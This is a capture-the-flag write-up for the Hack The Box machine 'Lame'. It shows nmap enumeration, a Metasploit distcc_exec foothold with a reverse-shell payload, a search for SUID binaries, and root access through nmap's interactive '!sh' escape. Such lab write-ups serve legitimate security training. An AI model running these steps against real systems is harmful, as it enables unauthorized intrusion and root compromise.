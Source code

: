 ```yaml
---
title: HTB - Lame
date: 2023-11-27
categories: [CTF Write Up, HTB]
tags: [nmap, suid, hacktricks, metasploit, distccd, cve-2004-2687]
img_path: /assets/lame/
published: true
---
```


![room_banner](lame_banner.png)

## Overview

|:-:|:-:|
|Machine|[Lame](https://app.hackthebox.com/machines/1)|
|Rank|Easy|
|Time|45min|
|Focus|SUID, Metasploit|

## 1. Initial Enum

```shell
sudo nmap -sS -sC -sV -O -Pn --min-rate 10000 10.10.10.3 -p-

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)

22/tcp   open  ssh    OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)

139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))

Aggressive OS guesses: Linux 2.6.23 (92%)

Host script results:
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 2h30m21s, deviation: 3h32m10s, median: 19s
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2023-11-27T15:18:00-05:00
```

> FTP server is empty & SMB enumeration lead to nothing.

## 2. Initial Foothold

> [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/3632-pentesting-distcc): _**Distcc** is designed to speed up compilation by taking advantage of unused processing power on other computers. A machine with distcc installed can send code to be compiled across the network to a computer which has the distccd daemon and a compatible compiler installed._

> msf6 exploit(unix/misc/distcc_exec) > set payload /cmd/unix/reverse

```shell
# meterpreter
cd home
ls
ftp
makis
service
user
cd makis
ls
user.txt
```
## 3. Privilege Escalation

```shell
daemon@lame:/$ find / -type f -perm -u=s 2>/dev/null
find / -type f -perm -u=s 2>/dev/null
...
/usr/bin/nmap
/usr/bin/chsh
/usr/bin/netkit-rcp
/usr/bin/passwd
/usr/bin/mtr
/usr/sbin/uuidd
/usr/sbin/pppd
/usr/lib/telnetlogin
/usr/lib/apache2/suexec
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/pt_chown
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
```

<figure>
    <img src="gtfobins_suid_sudo_nmap.png"
    alt="GTFOBins nmap" >
</figure>

> SUID section does not work --> SUDO (b) works!

```shell
daemon@lame:/usr/bin$ ./nmap --interactive
./nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# cat /root/root.txt
cat /root/root.txt
```

<figure>
    <img src="lame_pwned.png"
    alt="Machine pwned" >
</figure>